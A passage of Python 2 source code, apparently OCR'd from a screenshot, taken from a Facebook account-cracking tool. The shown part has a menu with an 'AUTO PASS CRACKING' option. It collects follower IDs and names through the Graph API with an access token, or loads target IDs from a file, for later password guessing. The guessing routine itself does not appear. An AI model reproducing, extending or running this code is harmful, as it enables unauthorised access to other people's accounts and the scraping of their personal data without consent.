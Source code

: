 			idt = raw_input("\033[93;1m  INPUT FOLLOWER ID (\033[92;1m%s\033[93;1m) : \033[92;1m"%(t))

			try:

				for i in requests.get("https://graph.facebook.com/"+idt+"/subscribers?access_token="+token+"&limit=999999").json()["data"]:

					uid = i["id"].encode('utf-8')

					na = i["name"].encode('utf-8')

					id.append(uid+"|"+na)

			except KeyError:

				print("\033[91;1m  PRIVATE FRIEND LIST TRY ANOTHER ONE")

			print("\033[94;1m  TOTAL IDS  : \033[0;92m%s\033[0;97m"%(len(id)))

		time.sleep(3)

	elif select =="3":

		os.system("clear")

		logo()

		print("")

		print("\t\033[93;1m   AUTO PASS CRACKING")

		print("")

		filelist = raw_input('\033[92;1m  INPUT FILE: ')

		try:

			for line in open(filelist, 'r').readlines():

				id.append(line.strip())

				

		except IOError:

			print("\t\033[91;1m  REQUESTED FILE NOT FOUND")

			print("")

			raw_input("\033[93;1m PRESS ENTER TO BACK")

			crack1()

			

	elif select =="0":

	    menu()

	else:

		print("")

		print("\t\033[91;1m  SELECT VALID OPTION")

		print("")
